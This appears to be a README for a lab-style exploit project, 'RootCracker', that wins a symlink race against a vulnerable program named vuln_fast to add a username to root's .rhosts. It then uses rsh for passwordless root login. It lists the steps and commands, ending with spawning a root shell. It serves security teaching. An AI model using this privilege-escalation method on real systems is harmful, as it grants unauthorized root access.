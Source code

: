 # RootCracker
Gains access to the root user by exploiting the vuln_fast program to add your username to the root user's .rhosts file to allow passwordless login using the rsh and rlogin commands.

vuln.sh :  
Removes the debug file (to clean up from any old exploit attempts) and runs the vulnerable program in a tight loop with a high nice value.

exploit.sh :  
Removes the debug file, and generates a symbolic link to a specified target in its place. This also happens in a tight loop such that exploit.sh and vuln.sh when run at the same time are competing to access the debug file (or symlink).
 
Check permissions of vuln_fast :  
$ ls -la vuln_fast

Verify write to debug file :  
$ cat ~/.debug_log

Trace location of debug file :  
$ sudo strace -e trace=open,close,read,write ./vuln_fast "localhost student"

Run scripts :  
$ sh -x vuln.sh & sh -x exploit.sh

Check if exploit was successful :  
$ rsh -l root localhost whoami

Spawn a new superuser privileged shell :  
$ rsh -l root localhost bash



